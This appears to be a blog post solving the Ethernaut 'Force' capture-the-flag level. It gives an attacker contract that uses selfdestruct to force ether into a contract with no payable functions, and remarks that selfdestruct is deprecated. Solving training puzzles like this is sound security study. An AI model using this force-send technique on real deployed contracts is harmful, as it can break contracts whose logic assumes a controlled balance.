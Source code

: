 ```yaml
---
title: Ethernaut - Force - Solution
date: '2024-05-06'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Ethernaut - Force CTF
---
```


# Ethernaut - Force - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

## Exploit

To solve this level, we need to exploit the fact that `selfdestruct` allows to force-send ether to a contract, even if this contract does not have any payable functions.
More precisely, we can simply deploy the following attacker contract and send an arbitrary amount of ether (e.g., 1 wei) to that attacker contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceAttacker {
    address public immutable VICTIM;

    constructor(address victim) {
        VICTIM = victim;
    }

    receive() external payable {
        selfdestruct(payable(VICTIM));
    }
}
```

Note, however, that this exploit will likely no longer work in the future due to the deprecation of `selfdestruct`.

At the time of writing this post, you will get the following warning when using the above attacker contract in Remix:
_Warning: "selfdestruct" has been deprecated. Note that, starting from the Cancun hard fork, the underlying opcode no longer deletes the code and data associated with an account and only transfers its Ether to the beneficiary, unless executed in the same transaction in which the contract was created (see EIP-6780). Any use in newly deployed contracts is strongly discouraged even if the new behavior is taken into account. Future changes to the EVM might further reduce the functionality of the opcode._